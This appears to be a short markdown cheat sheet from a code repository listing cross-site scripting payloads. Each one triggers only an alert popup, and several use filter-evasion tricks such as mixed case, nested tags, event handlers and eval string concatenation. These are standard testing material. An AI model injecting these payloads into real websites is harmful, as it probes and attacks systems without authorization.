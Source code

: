 # Payloads
## XXS Popup:
<p>
- <script>alert("XSS");</script>
- <script>alert(‘XSS’);</script>
- <script>alert(‘XSS’)</script>
- <<script>alert("XSS");//<</script>
- <sCripT>alert("XSS")</scRipt>
- <scr<script>ipt>alert('XSS')</script>
- <sCripT>alert('XSS')</scRipt>
- <img src=/ onerror="alert('XSS')"/>
- <img src=x onMouseOver=alert('XSS')>
- <svg/onload=eval("ale"+"rt")(\`XSS${alert\`XSS/\`}\`)>
- <img src='nevermind' onerror="alert('XSS');" />
- << script>alert("XSS");//<</ script>
- <svg/onload=alert('XSS')>
- div.innerHTML = '<script deferred>alert("XSS");</script>';
- <img src="aaa" onerror=alert('xxs')>
- <body onload="alert('XSS')">
</p>
